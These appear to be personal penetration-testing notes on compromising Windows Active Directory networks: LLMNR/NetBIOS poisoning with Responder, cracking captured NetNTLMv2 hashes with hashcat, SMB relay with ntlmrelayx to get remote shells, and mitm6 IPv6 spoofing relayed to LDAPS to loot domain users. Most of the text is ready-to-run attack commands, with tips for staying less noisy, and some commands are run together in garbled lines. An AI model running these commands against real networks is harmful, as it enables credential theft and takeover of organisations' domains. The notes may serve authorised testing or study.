

1 Netbios && LLMNR Name Poisoning
2 Relay Attacks
3 MITM6
4 MS17-010
5 Kerberoasting
1. LLMNR (link local multicasting name resolution:: basically DNS) Poisoning:
-
needs traffic - ideal before nmap/nessus scans
-
responder:
python /usr/share/responder/Responder.py -L eth0 -rdwva) try to access attacker IP address::

hashcat -m 5600 windowshash.txt /usr/share/wordlists/rockyou.txt # --m 5600 module for NetNTLMv2
2. SMB Relay attacks:
- Requirements: SMB signing must be disabled, relayed user creds must be admin on machine, && network sharing enabled
- setup ntlmrelay::

a) Find machines w/ smb enabled: Nessus or Nmap:
/opt/impacket/examples/$ python3ntlmrelayx.py -tf targets.txt -smb2support (-i) #python3 -m pip install . ## -i interactive
- Working but keeps failing::
&&
- shells W/ creds::

wmiexec.py && smbexec.py first! psexec and smb metepreter is very noisy
3. Pv6 Attacks: DNS relay:
Requirements, must have certificate in DC: manage -> add role/feature -> next(3x) -> AD cert services -> CA -> next && restart -> install -> validity period 99yrs
Setup relay && ipv6 spoofing:
/opt/mitm6/mitm6$ sudo python3 mitm6.py -d carbon.local #(DC)/opt/impacket/examples$ sudo python3 ntlmrelayx.py -6 -t ldaps://192.168.86.205 -wh fakewpad.carbon.local -l lootmexdg-open /opt/impacket/examples/lootme/domain_users_by_group.html

- MS17-010\
[tutorial] (https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
[PW list] (https://github.com/danielmiessler/SecLists/tree/master/Passwords)
[impacket] (https://github.com/SecureAuthCorp/impacket)
[mitm6] (https://github.com/dirkjanm/mitm6)\